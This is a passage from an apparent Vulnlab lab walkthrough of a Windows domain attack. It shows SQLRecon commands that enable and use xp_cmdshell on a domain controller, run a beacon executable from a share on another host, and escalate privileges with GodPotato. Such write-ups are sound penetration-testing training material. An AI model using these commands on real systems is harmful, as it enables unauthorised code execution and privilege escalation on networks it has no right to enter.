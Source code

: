![](35.png)

Now let's enable command execution
```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:EnableXp
```
```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:xpcmd /command:"whoami"
```

![](36.png)

Now let's get the beacon. Easiest way is to share the folder on DC01 and execute it from DC02

![](37.png)

Execute the beacon

```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:xpcmd /command:"\\dc01.mythical-us.vl\temp\update.exe"
```

![](38.png)

We have `SeImpersonatePrivilege` privileges, so let's run `GodPotato` to escalate privileges
```
GodPotato.exe -cmd "cmd /c \\dc01.mythical-us.vl\temp\update.exe"
```

![](39.png)

[https://api.vulnlab.com/api/v1/share?id=72fae192-2ef2-46f3-b36e-2a30789ae89a](https://api.vulnlab.com/api/v1/share?id=72fae192-2ef2-46f3-b36e-2a30789ae89a)
